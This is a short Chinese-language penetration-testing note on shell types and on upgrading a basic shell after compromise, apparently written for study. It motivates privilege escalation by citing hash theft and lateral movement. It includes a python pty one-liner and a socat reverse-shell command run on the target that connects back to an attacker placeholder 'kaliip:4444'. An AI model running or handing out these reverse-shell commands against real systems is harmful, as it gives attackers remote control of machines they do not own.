 ```yaml
---
title: 提权
date: '2025-04-10 21:48:53'
updated: '2025-04-10 21:55:07'
---
```

为什么需要提权？        

渗透测试中，高权限 shell 能带来以下好处：

+ 高权限能对更多的文件进行「增删改查」操作，便于进一步收集主机系统中的敏感信息
+ Linux 系统的 root 权限可获取 shadow 文件中的密码 Hash，若内网环境中存在「账户/密码复用」的情况，可用于横向扩展
+ Windows 系统中的 system 权限可提取内存中的密码 Hash，可进一步用于域渗透

简而言之，获取更高权限的 shell，能为渗透测试后期的工作带来便利。但同时也提高了被发现的概率

## shell 类型
支持交互式输入的 shell 有两种：

+ 第一种：`tty` ，又称为控制终端终端，linux 自带的命令行就是 tty，我们可以在 vmare 虚拟机里使用 tty 命令查看，回显会提示我们是 tty
+ 第二种：`pts`，又称为伪终端，包括使用 ssh 或 telnet 远程连接获取的 shell 都是 pts 伪终端，我们在 ssh 中使用 tty 查看一下，回显会提示我们是 pts

但是我们通常获得的是更简单是shell，不支持交互式输入

### 简单shell
+ 不支持 su、ssh 等需要交互的命令
+ 命令执行错误时的“标准错误信息（STDERR）”不会被打印出来
+ 不能完整支持 vim/vi 编辑器
+ 不支持命令 tab 键自动补全功能，不支持「上下方向键」显示历史命令

### python shell
提权：

```python
python -c 'import pty;pty.spawn("/bin/bash");'
```

+ 支持命令交互式输入
+ 支持打印命令执行错误时的“标准错误信息（STDERR）”
+ 不支持 tab 自行不全、使用「上下方向键」显示历史命令：
+ 不支持 vim/vi 编辑文件

### socat shell
提权：

在kali虚拟机运行以下侦听命令

```python
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

在目标机器运行

```python
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:kaliip:4444
```

+ 支持命令交互式输入
+ 支持打印命令执行错误时的“标准错误信息（STDERR）”
+ 支持 tab 自行补全、使用「上下方向键」显示历史命令：
+ 支持 vim/vi 编辑文件

